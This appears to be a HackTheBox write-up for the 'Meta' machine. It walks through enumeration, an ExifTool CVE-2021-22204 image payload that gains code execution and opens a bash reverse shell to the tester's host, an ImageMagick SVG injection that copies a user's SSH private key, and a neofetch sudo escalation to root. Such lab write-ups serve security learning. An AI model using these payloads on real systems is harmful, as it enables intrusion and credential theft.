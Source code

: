 ```yaml
---
description: Meta box from HackTheBox write up.
---
```


# Meta

## Nmap scan

As usual let's launch a full port basic Nmap scan and then a more detailed one but only on open ports:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Meta]
└─$ sudo nmap -p- --min-rate 1000 10.10.11.140
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 04:16 EDT
Nmap scan report for 10.10.11.140
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Meta]
└─$ sudo nmap -p22,80 -sC -sV 10.10.11.140               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 04:18 EDT
Nmap scan report for 10.10.11.140
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```

Just port 22 and 80 openned so let's start with the web server.

## Artcorp Webpage

### Initial Enumeration
First thing, the page is redirecting to `http://artcorp.htb/` to added the domain to my `/etc/hosts` file in order to access.

Since the page looks pretty empty I launched a `Gobuster` directory scan to check for something useful:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Meta]
└─$ gobuster dir -u http://artcorp.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://artcorp.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
2022/05/29 04:24:38 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 4427]
/assets               (Status: 301) [Size: 234] [--> http://artcorp.htb/assets/]
/css                  (Status: 301) [Size: 231] [--> http://artcorp.htb/css/]   
                                                                              
===============================================================
2022/05/29 04:29:10 Finished
===============================================================
```

No luck there but what about virtual hosts?

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Meta]
└─$ gobuster vhost -u http://artcorp.htb/ -w ~/Wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://artcorp.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/kali/Wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/05/29 04:27:59 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev01.artcorp.htb (Status: 200) [Size: 247]
                                                  
===============================================================
2022/05/29 04:30:01 Finished
===============================================================
```

There you go, adding the discovered subdomain to `/etc/hosts` file we are welcomed with a simple page that allow us to test application under development. Only one available, MetaView, the one the main page was talking about so let's take a look.

### RCE

The application allow us to upload a file and the page will show the metada information of it. Trying to add metada to a JPG image I noticed that I could get XSS, not usefull but hey it is something:
```bash
exiftool -overwrite_original -artist="<h1>TEST</h1>" exploit.jpg
```

Also I tried to inject a PHP payload but looks like the application is filtering it out. I tried for a while and even though I was not able to bypass the filter I found something while I was crying: [https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/){:target="_blank"}.

The page output looks really like `exiftool` being used to get the metada information so, maybe this RCE exploit could work. I replicated the PoC and generated a malicious image `exploit.jpg`:
```bash
# Payload file
(metadata "\c${system('id')};")

# Compress the payload and create a DjVu image
bzz payload payload.bzz
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz


#Create this configfile file for exiftool
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%

# Using the configfile, inject the DjVu inside a JPG
exiftool -config configfile '-HasselbladExif<=exploit.djvu' -overwrite_original exploit.jpg
```

Uploading that file to the application will result in the `id` command being executed so we have RCE! We can now leverage this to get a reverse shell:

```bash
(metadata "\c${system('bash', '-c', 'bash -i >& /dev/tcp/10.10.14.12/8080 0>&1')};")
```

## In the machine as www-data

Using Pspy64 I saw that there are some funny things going on here:

```bash
2022/05/29 08:08:01 CMD: UID=0    PID=15560  | /bin/sh -c rm /tmp/* 
2022/05/29 08:08:01 CMD: UID=0    PID=15564  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
2022/05/29 08:08:01 CMD: UID=1000 PID=15563  | /usr/local/bin/mogrify -format png *.* 
2022/05/29 08:08:01 CMD: UID=1000 PID=15561  | /bin/bash /usr/local/bin/convert_images.sh 
2022/05/29 08:08:01 CMD: UID=1000 PID=15566  | pkill mogrify
```

Looks like the user 1000 (`thomas`), is running this script as a Cronjob:

```bash
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

And also that the box love to delete things and move stuff around, this cost me some hours to be honest. Researchin about that `mogrify` thing I found [this](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html){:target="_blank"} blog about a vulnerability that can be used to inject commands using a malicious SVG file, this the one I used:

```xml
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa)> /home/thomas/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

At first I tested this trying to write the command output to the `/tmp` folder but thanks to the box cleaning up stuff I wasted a lot of time "debugging" something that was working. At the end I came up with the above payload and I was able to get the private key of the user, it needed some formatting but I got an SSH session with it at the end.

## In the machine as thomas

First of all, get the user flag under `/home/thomas/user.txt`.

```bash
2022/05/29 08:08:01 CMD: UID=0    PID=15564  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
```

Then I found something interesting:

```bash
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

Looks like this user is able to execute the `neofetch` command as `root`. According with the research I made, we can use this to get a shell as `root` using a configuration file with this content:

```bash
exec /bin/sh
```

The problem is that we can't specify a custom configuration file in the command but we can use the `XDG_CONFIG_HOME` environment variable. According to the documentation, Neofetch will use the file under `$XDG_CONFIG_HOME/neofetch/config.conf` and `sudo` is also configured to keep the `XDG_CONFIG_HOME` variable if present. 

With that information, I created `/home/thomas/neofetch/config.conf` and got a `root` shell:

```bash
thomas@meta:~$ cat neofetch/config.conf 
exec /bin/sh
thomas@meta:~$ sudo XDG_CONFIG_HOME=$HOME /usr/bin/neofetch 
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

The `root` flag is under `/root/root.txt`.
